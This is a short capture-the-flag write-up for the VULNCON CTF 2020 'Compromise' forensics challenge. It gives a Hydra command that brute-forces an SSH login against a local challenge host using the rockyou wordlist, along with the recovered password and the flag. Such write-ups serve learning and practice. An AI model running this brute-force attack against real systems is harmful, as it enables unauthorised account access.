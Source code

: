 ```yaml
---
title: "VULNCON CTF 2020 - Compromise writeup"
excerpt: "Writeup for the Compromise chall from [VULNCON CTF 2020](https://ctftime.org/event/1149)."
date: 2020-12-20T14:31:30-03:00
categories:
  - Cybersecurity
tags:
  - Forensic
  - VULNCON CTF 2020
  - CTF
---
```


## Description:

```
What account was the username and password of the compromised user ?

NOTE: Use file given in 1st Chall Attack

Flag Format: vulncon{username_password}

Author - White_Wolf
```

## Solution

I used Hydra to brute-force the SSH password:

`hydra -l karma -P rockyou.txt 127.0.0.1 -t 64 -s 2222 -V ssh`

The Attack chall gave the information about the targeted user, and I used the rockyou wordlist to find the password, which is `godisgood`:

`vulncon{karma_godisgood}`
